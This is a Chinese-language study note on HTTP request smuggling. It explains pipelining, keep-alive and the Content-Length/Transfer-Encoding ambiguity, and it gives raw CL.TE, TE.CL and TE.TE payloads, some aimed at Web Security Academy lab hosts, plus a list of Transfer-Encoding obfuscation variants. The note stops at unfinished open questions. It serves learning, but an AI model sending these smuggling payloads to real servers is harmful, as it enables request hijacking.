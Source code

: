 ### 请求走私是什么

### 协议特性

> Pipeline的介绍：HTTP的Pipeline技术是一种优化HTTP请求-响应的机制，它允许客户端在一个连接上发送多个请求而无需等待每个请求的响应。在传统的HTTP中，客户端发送一个请求后，必须等待服务器的响应，然后才能发送下一个请求。而使用Pipeline技术，客户端可以在一个TCP连接上连续发送多个请求，而无需等待每个请求的响应。
>
> 这种技术可以提高性能，因为它减少了每个请求之间的延迟。然而，它也存在一些挑战，比如如果服务器不能按照请求的顺序返回响应，就可能会导致混乱。此外，不是所有的HTTP服务器和代理都支持Pipeline技术，因此在使用时需要注意兼容性和性能影响。
>
> Keep-alive的介绍：在HTTP/1.1中引入的一项新特性，持久连接允许在单个TCP连接上发送多个HTTP请求和响应，而不是为每个请求都建立一个新的连接，当客户端发送一个HTTP请求并接收到服务器的响应后，TCP连接不会立即关闭，而是保持打开状态。这样客户端可以在同一个连接上发送多个请求，而无需重新建立连接，持久连接的好处在于可以减少建立连接时的开销、减少延迟并提高效率

* Pipeline和Keep-Alive的区别：Pipeline注重的是http请求之间的并发性，它可以连续发送多个http请求，而不管是否收到响应；Keep-Alive则注重的是对于连接的复用，强调的是一个tcp连接可以发送多个http请求。

### 漏洞原理

* http 1.1中有两个可用的方式来指定请求的结束位置——Content-Length和Transfer-Encoding，所以当同一个请求出现这两个首部时，可能会引起歧义。一般情况下，对于同一个服务器，如果接收到的一个请求中有这两个首部，建议以Transfer-Encoding为准。但是如果采取前端服务器＋后端服务器的架构，容易出现两种情况造成两台服务器对于请求的理解出现歧义：		

  * 如果某些服务器不支持Transfer-Encoding请求中的标头，则可能会导致歧义
  * 如果请求头以某种方式被混淆，支持Transfer-Encoding标头的服务器可能会被诱导不去处理它

* 如何判断一个http请求是否结束

  * 没有请求体：两个回车换行（CRLF，"\r\n"）来标识请求头的结束
  * 有请求体：用到Content-Length和Transfer-Encoding
  * Content-Length的值指明请求体的大小

  ```http
  POST /search HTTP/1.1
  Host: normal-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 11
  
  q=smuggling
  ```

  * Transfer-Encoding

  ```http
  HTTP/1.1 200 OK
  Date: Fri, 05 Jun 2024 12:00:00 GMT
  Content-Type: text/plain
  Transfer-Encoding: chunked
  
  7\r\n
  Hello, \r\n
  6\r\n
  world!\r\n
  0\r\n
  ```

### 三种走私类型（没有实际意义）

#### CL.TE

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0\r\n
\r\n
SMUGGLED
```

* 前端服务器识别CL,将整个数据包完整发往后端服务器;后端服务器识别TE,SMUGGLED作为下一个请求的开头

#### TE.CL

```http
POST / HTTP/1.1
Host: 0a96003604f8aabe8031df2300fe009a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c\r\n
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0
```

* 前段服务器识别TL,将整个数据包完整发往后端服务器;后端服务器识别CL,GPOST将作为下一个请求的开头

#### TE.TE

* 采取多种方式混淆TE,让某一服务器无法正确识别

```http
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

```http
POST / HTTP/1.1
Host: 0a60007404aa738e80bff93900e000a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: cow

5c\r\n
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
```

* 这里相当于达成了TE.CL的效果,但是原因并不是后端不识别TE,而是我们刻意混淆TE让后端服务器不识别

### 带来的相关问题

* 前文介绍的pipeline keep-alive和请求走私有什么关系?
* 为什么一定要强调前段服务器和后端服务器对于CL和TE的不同处理,个人感觉请求走私的三个类型只要有一个服务器就够了.例如CL.TE的类型中,前端服务器是识别CL,将请求完整转发到后端服务器,这个过程前服务器是没有对请求包产生影响的,把他去掉也不妨碍后端服务器对于请求的拆分?
  * 之前的例子只是展示了
* 实际危害,三个类型并没有体现出实际危害